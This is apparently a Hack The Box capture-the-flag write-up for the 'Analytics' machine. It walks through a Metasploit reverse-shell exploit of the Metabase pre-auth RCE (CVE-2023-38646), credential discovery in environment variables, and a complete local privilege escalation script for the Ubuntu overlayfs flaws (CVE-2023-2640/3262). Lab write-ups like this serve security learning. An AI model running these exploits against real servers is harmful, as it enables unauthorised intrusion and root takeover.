# Decoding the Cyber Maze: Metabase Pre-Authentication RCE in 'Analytics Machine'.

<p align="center">
   <a href="https://github.com/MrGovindDubey/HTB-Machines/edit/Master/10.10.11.233" >
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/5389b04e-7de8-4994-ac76-e5dbc4d79727" align="center" alt="keeper-htb" />
   <a/>
</p>

## Introduction

Brace yourselves for a deep dive into the captivating realm of machine "analytics". In this exploration, we'll unravel the intricacies of analyzing machines, with a specific emphasis on the fascinating landscape of Metabase Remote Code Execution (RCE). We dissect the architecture, employing cutting-edge techniques to unveil the hidden steps that illuminate the profound world of machine analysis.

## Enumeration
An Nmap scan reveals a website at analytical.htb:

```bash
┌──(yury㉿kali)-[~/Documents/htb/analytics/CVE-2023-38646]
└─$ nmap analytical.htb
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-15 04:21 PDT
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.28s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
8402/tcp filtered abarsd
```

## Found a login page there
The website has a login page which goes to the _data.analytical.htb_ subdomain. This login page is using Metabase.

![Analytics _Web_Page by Mr  Govind Dubey  ](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/3c7d5d8f-21e4-40ee-920c-f94f50533d8a)


Subdomain : _data.analytical.htb_
![Metabase admin page - Mr  Govind Dubey ](https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/e12f739c-49df-4e89-a1c3-a4a3f8056638)


## discovered an exploit within metasploit
While scouring the internet for details on Metabase exploits, I stumbled upon this information and grasped the underlying vulnerability gives us CVE-2023-38646 ( Chaining our way to Pre-Auth RCE in Metabase ) . 


```bash
msf > search metabase

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/http/metabase_setup_token_rce  2023-07-22       excellent  Yes    Metabase Setup Token RCE

msf > use exploit/linux/http/metabase_setup_token_rce
[*] Using configured payload cmd/unix/reverse_bash

```

#### Let's immerse ourselves in the task at hand by configuring our rhost, lhost, and rport settings for impactful exploits in Metasploit.

```bash
msf exploit(linux/http/metabase_setup_token_rce) > set RHOST data.analytical.htb
RHOST => data.analytical.htb
msf exploit(linux/http/metabase_setup_token_rce) > set LHOST 10.10.15.63
LHOST => 10.10.15.63
msf exploit(linux/http/metabase_setup_token_rce) > set RPORT 80
RPORT => 80
```
 #### Once completing the setup, feel free to proceed with executing the exploit.

```bash
msf exploit(linux/http/metabase_setup_token_rce) > run

[*] Started reverse TCP handler on 10.10.15.63:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.46.6
[+] Found setup token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[*] Sending exploit (may take a few seconds)
[*] Command shell session 1 opened (10.10.15.63:4444 -> 10.10.11.233:39036) at 2023-10-15 05:24:31 -0700

```

#### I commence the enumeration process to facilitate container escape. My first step involves scrutinizing potential environment variables through the execution of the 'env' command.

```bash 
env
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=151580f52dbb
FC_LANG=en-US
SHLVL=5
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=/bin/sh
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=**************
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/
MB_DB_FILE=//metabase.db/metabase.db 
```

#### I found the password. Now, let’s use it to log in with ssh to the machine.

```bash
metalytics@analytics:~$ ls
user.txt 
```

<br></br>

## Privilege Escalation

```bash 
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jan 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

#### I utilized a script [exploit.sh](10.10.11.233/exploit.sh) meticulously crafted for Linux privilege escalation on the targeted machine.

```bash 
metalytics@analytics:~$ cd ../../tmp
metalytics@analytics:/tmp$ nano exploit.sh
metalytics@analytics:/tmp$ cat exploit.sh 
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262:Privilege Escalation

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
metalytics@analytics:/tmp$ chmod +x exploit.sh 
```

## Ready to kick things off? Simply proceed by executing the [exploit.sh](10.10.11.233/exploit.sh) file!"

```bash 
metalytics@analytics:/tmp$ ./exploit.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# whoami
root
root@analytics:/tmp# cat ../../root/root.txt

```
<hr>
</hr>

# CVE-2023-38646 
Metabase open source before 0.46.6.1 and Metabase Enterprise before 1.46.6.1 allow attackers to execute arbitrary commands on the server, at the server's privilege level. Authentication is not required for exploitation.

[Metasploit -  Metabase Setup Token RCE](https://www.rapid7.com/db/modules/exploit/linux/http/metabase_setup_token_rce/"@embed")



<p align="center">
   <a href="https://www.hackthebox.com/achievement/machine/672066/569" >
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/f05df61a-7e3f-4a05-afd4-26fa1a3c11f3" align="center" alt="Analytics-htb pwnd by Mr.Govind" />
   <a/>
</p>


<hr>
</hr>

## Conclusion
The traversal from the initial discovery of a Metabase vulnerability to obtaining root privileges underscores the imperative nature of fortifying systems against pre-authentication RCEs. This exploit serves as a vivid illustration of the pressing need for vigilant monitoring, prompt patching, and proactive security measures to mitigate potential risks.

The cybersecurity landscape is a complex maze, and this expedition exemplifies the importance of continuous vigilance, collaboration, and adherence to best practices in safeguarding against evolving threats.

